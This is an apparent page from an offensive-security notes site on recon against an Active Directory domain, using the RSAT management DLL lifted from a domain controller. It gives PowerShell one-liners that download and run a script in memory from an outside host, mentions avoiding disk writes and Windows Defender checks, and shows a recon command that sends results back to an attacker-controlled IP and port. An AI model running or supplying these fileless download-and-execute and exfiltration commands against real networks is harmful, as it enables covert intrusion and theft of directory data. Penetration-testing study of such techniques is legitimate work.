

repository: gandhi-taha/security · page: attacking_active_directory_domain/recon/active_directory_recon/index.html · generator: mkdocs



## Using Active Directory Remote Server Administration Toolkit (RSAT) 

Most client computers and even servers don't have RSAT installed.  
You usually need to be local admin to install RSAT.

However, every DC comes with RSAT installed, and it is just a dll found here on the DC: `C:\Windows\Microsoft.NET\assembly\GAC_64\Microsoft.ActiveDirectory.Management\XXX\Microsoft.ActiveDirectory.Management.dll`

If you want you can just upload that dll to your computer, import it and then you have access to the RSAT commands.

```
import-module Microsoft.ActiveDirectory.Management.dll
get-addomain
```

```
sha256sum Microsoft.ActiveDirectory.Management.dll
8eb311a48c6bb32577dac1844372513fbc66e0093351206fb17679ebd1272135  Microsoft.ActiveDirectory.Management.dll
```

If you don't want to write anything to disk you can import the entire module straight into memory with the script found [here](../tools-and-scripts/rsat.ps1). The script uses `[System.Reflection.Assembly]::Load($bytes)` which sometimes triggers WinDefender to check the files. 


```
iex (New-Object Net.WebClient).DownloadString("http://192.168.77.90/rsat.ps1")
get-aduser -filter *
```

The RSAT module can be loaded and an additional recon-script can be executed, that send home the result of the recon, all can be done without touching disk.
There are two ways to execute both, or several, command in oneline:

```ps1
'(New-Object Net.WebClient).DownloadString("http://192.168.77.90/rsat.ps1")', 'get-recon -ip 192.168.77.90 -port 9999' | invoke-expression
```
